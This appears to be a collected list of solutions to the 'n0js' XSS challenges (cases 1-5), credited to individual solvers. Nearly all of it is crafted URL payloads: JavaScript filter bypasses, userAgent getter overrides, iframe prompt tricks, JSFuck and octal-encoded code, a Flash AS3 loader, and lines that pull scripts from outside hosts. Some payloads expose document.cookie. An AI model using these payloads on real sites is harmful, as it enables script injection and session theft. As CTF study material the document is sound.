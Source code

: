 # n0js Challenges

[http://server.n0tr00t.com/n0js/case1.html](http://server.n0tr00t.com/n0js/case1.html)

	#### @Nearg1e [yourneargo@gmail.com]
	- http://server.n0tr00t.com/n0js/case1_writeup.txt

[http://server.n0tr00t.com/n0js/case2.html](http://server.n0tr00t.com/n0js/case2.html)

	#### @fyth
    - case2.html?a=location.hash.substr(1)#setTimeout("hi.eval('prompt(location.href)')",500)
    - case2.html?a=location.hash.substr(1)#navigator.__defineGetter__('userAgent', function(){ return '<svg/onload=prompt(location.href)>'})

	#### @evi1m0

    - case2.html?a=location.hash.substr(1)#var frame = document.createElement('iframe');
      frame.style.display = 'none'; document.body.appendChild(frame);
      function navigator(){} window.navigator = new Proxy(window.frames[0].window.navigator,
      { get: function(n0t){return "<img src=@ onerror=alert(location.href)>";} })
      
	#### 1124696276

    - case2.html?a=location.hash.substr(1)#function createProperty(value){var _value=value;function _get(){return _value}function _set(v){_value=v}return{"get":_get,"set":_set}};
      function makePropertyWritable(objBase,objScopeName,propName,initValue){var newProp,initObj;if(objBase&&objScopeName in objBase&&propName in objBase[objScopeName])
      {if(typeof initValue==="undefined"){initValue=objBase[objScopeName][propName]}
	  newProp=createProperty(initValue);try{Object.defineProperty(objBase[objScopeName],propName,newProp)}
      catch(e){initObj={};initObj[propName]=newProp;
      try{objBase[objScopeName]=Object.create(objBase[objScopeName],initObj)}catch(e){}}}};
      makePropertyWritable(window,"navigator","userAgent");
      window.navigator.userAgent="<script>prompt(location.href)</script>";
    
	#### @gaoheby
	- case2.html?a=window.location.hash.substring(1)#Object.defineProperty(navigator,'userAgent',
	  {get:function(){return '<script>prompt(location.href)</script>';}})
    
	#### Cnlouds
	- case2.html?test=location.hash.substr(1)#window.addEventListener('load', function(){window.hi.prompt(hi.location.href)});

	#### kaotudou [jianshu.com/p/eb22e86635e0]
	- case2.html?1=eval((window.location.search.substring(49)));
      =var/**/script=document.createElement`script`;script.src=`https://
      ctf.f4ck0.com/1.js`;document.body.appendChild(script);

[http://server.n0tr00t.com/n0js/case3.php](http://server.n0tr00t.com/n0js/case3.php)

	#### @Nearg1e [yourneargo@gmail.com]
	- case3.php?2017=%3Cobject%20allowscriptaccess=always%3E%20%3Cparam%20name=url%20value=http://tangzi.info:43992/payload/n0js_case3.swf%3E
	- AS3 Script:
	    package {
	        import flash.*;
	        import flash.net.*;
	
	        public class XSS {
	
	            public function XSS():void{
	            }
	            public static function main():void{
	                Lib.getURL(new URLRequest("javascript:a=document.createElement('iframe');a.src='https://www.n0tr00t.com/static/test/helloevent.html';document.body.appendChild(a);setTimeout(function(){window.frames[0].postMessage('<img src=1 onerror=prompt(document.cookie)>','*')},3000);"), "_top");
	            }
	
	        }
	    }
	    
	#### daocaoren [jkme.github.io/n0js-case3.html]
	- case3.php?2017=%3Csvg%3E%3Cset+href%3d%23script+attributeName%3dhref+to%3ddata%3a%2cs%3ddocument.createElement(%22script%22)
	  %3bs.src%3d%22http%3a%2f%2f45.32.138.203%2f2.js%22%3bdocument.body.appendChild(s)%3b+%2f%3E%3Cscript+id%3dscript+src%3dfoo%3E%3C%2fscript%3E+
	- jssource:
	    var t = document.createElement("iframe");
	    t.setAttribute("src","https://www.n0tr00t.com/static/test/helloevent.html");
	    document.body.appendChild(t);
	
	    function a(){
	        var b = document.createElement("button");
	        b.setAttribute("onclick","frames[0].postMessage('<img src=x onerror=alert(document.cookie)>','*')");
	        b.click();
	    }
	    //setTimeout("a()",3000);
	    window.onload = a();
	    
[http://server.n0tr00t.com/n0js/case4.php](http://server.n0tr00t.com/n0js/case4.php)
	
	#### @woto [woto3679@gmail.com]
	- case4.php?x=d=document;D=Document.prototype;D.appendChild.call(d.body,(D.createElement.call(d,%22iframe%22))).contentWindow.prompt.call(window,location);
	
	#### @evi1m0 [evi1m0.bat@gmail.com]
	- case4.php?x=document.writeln(%27%3Ciframe%3E%27);frames[0].prompt(location)

	#### @Nearg1e [yourneargo@gmail.com]
	- case4.php?x=document.writeln(%22%3Ciframe%3E%3C/iframe%3E%22);let%20f=document.querySelector(%27iframe%27);f.contentWindow.prompt(location);
	
	#### @math1as [ma7h1as.l@gmail.com]
	- case4.php?x=document.body.innerHTML=%27%3Ciframe%20id=%22a%22%20/%3E%27;a.contentWindow.prompt(location)

[http://server.n0tr00t.com/n0js/case5.php](http://server.n0tr00t.com/n0js/case5.php)

	#### @Nearg1e [yourneargo@gmail.com]
	- case5.php?x=<script type="text/javascript" src=case5-time.php?callback=[][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]][([][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]])[%252B!%252B[]%252B[%252B[]]]%252B([][[]]%252B[])[%252B!%252B[]]%252B(![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[%252B!%252B[]]%252B([][[]]%252B[])[%252B[]]%252B([][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]])[%252B!%252B[]%252B[%252B[]]]%252B(!![]%252B[])[%252B!%252B[]]]((![]%252B[])[%252B!%252B[]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B'(1)')()>

	#### fubb[at]unseen.is
	- case5.php?x=%3Cscript%20src=%27case5-time.php?callback=[][%22%5C155%5C141%5C160%22][%22%5C143%5C157%5C156%5C163%5C164%5C162%5C165%5C143%5C164%5C157%5C162%22](%22%5C141%5C154%5C145%5C162%5C164%5C50%5C61%5C51%22)%27%3E


